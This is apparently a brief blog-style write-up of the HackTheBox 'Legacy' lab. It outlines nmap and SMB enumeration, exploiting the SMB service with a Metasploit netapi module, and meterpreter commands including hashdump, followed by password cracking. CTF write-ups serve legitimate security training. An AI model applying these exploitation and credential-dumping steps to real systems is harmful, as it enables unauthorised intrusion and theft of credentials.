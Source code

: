 ```yaml
---
layout: post
title:  HTB Legacy Writeup
subtitle: HackTheBox 
cover-img: /assets/img/path.jpg
tags: [Pentesting, Vulnerability Assessment, CTF, NMAP, Meterpreter]
---
```


#### Differnce between TCP and SYN scan

TCP scan 
 ```
 SYN 
 ACK+SYN
 ACK
```

SYN scan
```
SYN 
ACK+SYN
RST
```  
  
  
#### Running NMAP

nmap -A -T4 -p- <i.p>
   •  Port 139, 445  open
      ◇ smbclient -L \\<ip>\
      ◇ enum4linux -a <ip>[ optional ]

⇒ msfconsole
   • search smb_version
      ◇  We dont't know the smb version here, so checked rapid7 website and got netapi
      ◇  search netapi
           • use 1 
           • set rhosts <ip>, <ip>/24
           • run/exploit

#### Meterpreter commands - 
   • getuid
   • sysinfo
   • help(optional)
   • hashdump
   • shell
      ◇ Will redirect to System32 
⇒ Crack the passwords


#### For detailed explanation : [Another approach](https://medium.com/@ranakhalil101/hack-the-box-legacy-writeup-w-o-metasploit-2d552d688336)



